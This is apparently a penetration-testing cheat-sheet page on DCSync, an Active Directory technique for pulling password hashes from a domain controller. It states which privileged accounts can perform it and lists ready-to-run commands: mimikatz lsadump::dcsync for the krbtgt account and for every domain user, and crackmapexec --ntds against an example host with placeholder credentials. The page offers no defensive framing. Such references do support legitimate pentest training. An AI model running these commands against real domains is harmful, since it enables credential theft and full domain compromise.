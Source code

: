 ```yaml
---
description: >-
  DCSync is a technique used by attackers to obtain sensitive information,
  including password hashes, from a domain controller in an Active Directory
  environment. Any member of Administrators, Domain Ad
---
```


# 🟢 DCSync

DCSync is a technique used by attackers to obtain sensitive information, including password hashes, from a domain controller in an Active Directory environment.&#x20;

Any member of Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts are able to run DCSync to pull password data.

*   DCSync only one user

    ```
    mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt
    ```
*   DCSync all users of the domain

    ```
    mimikatz# lsadump::dcsync /domain:htb.local /all /csv
    ```

```
crackmapexec smb 10.10.10.10 -u 'username' -p 'password' --ntds
crackmapexec smb 10.10.10.10 -u 'username' -p 'password' --ntds drsuapi
```
